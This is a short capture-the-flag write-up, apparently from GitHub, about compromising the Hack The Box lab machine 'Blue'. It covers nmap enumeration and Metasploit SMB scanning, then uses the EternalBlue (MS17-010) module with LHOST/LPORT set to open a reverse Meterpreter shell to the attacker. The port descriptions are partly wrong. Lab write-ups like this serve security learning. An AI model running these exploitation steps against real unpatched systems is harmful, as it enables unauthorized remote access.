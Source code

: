 ![logo](/logo.png)

# [Blue- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 28 Jul 2017 as the tenth machine on HTB,Blue created by [ch4p](https://app.hackthebox.com/users/1) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Smb
  *EternalBlue
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/blue 10.10.10.40
```

###### Output 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/nmap.png)


looking at the results  we find out that there are 4 ports open and its a `Windows`and its running an `Windows 7 Professional`. 

port[135]-netbios
port[139]-smb
port[445]-  http
port[49152]
port[49153]
port[49154]-msrpc
port[49155]
port[49156]

#### SMB Host Detection
We search for the vertion of the smb from `msfconsole`

```sh
search smb_version
use 0
set RHOSTS 10.10.10.40
set RPORT 445
run
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/msfconsole.png)

Now that is a window 7 profesional and smb 2.1 it had vulnerability called `EternalBlue`

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/eternalblue.png)


# Exploitation 

```sh
use windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set RPORT 445
set LHOST 10.10.14.**
set LPORT 4444
run
```

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/msfblue.png)

and just like that we get a `Meterpreter` 

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/meterpreter.png)

it grants as a root privillage lets get the flags

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Blue/Screenshots/shellflags.png)

	-------------------------END successful attack @lesley----------------------







